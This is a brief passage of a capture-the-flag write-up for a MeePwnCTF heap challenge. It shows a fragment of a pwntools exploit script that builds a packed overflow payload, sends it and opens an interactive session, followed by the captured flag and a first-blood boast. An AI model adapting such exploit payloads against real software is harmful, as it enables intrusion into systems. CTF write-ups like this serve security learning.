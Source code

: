 ```python exp_bf2.py
    payload = "i"*0x40
    payload += p64(0) + p64(sc_buf) + p64(0x100) + p64(100) + p64(0x1000) + p64(0x111)
    cmd(payload)
    r.interactive()

```

flag: `MeePwnCTF{My_M33pwn_h34p_1s_fun?}`

Got both first blood on these challenges ! WOOHOO ! 😎🤘






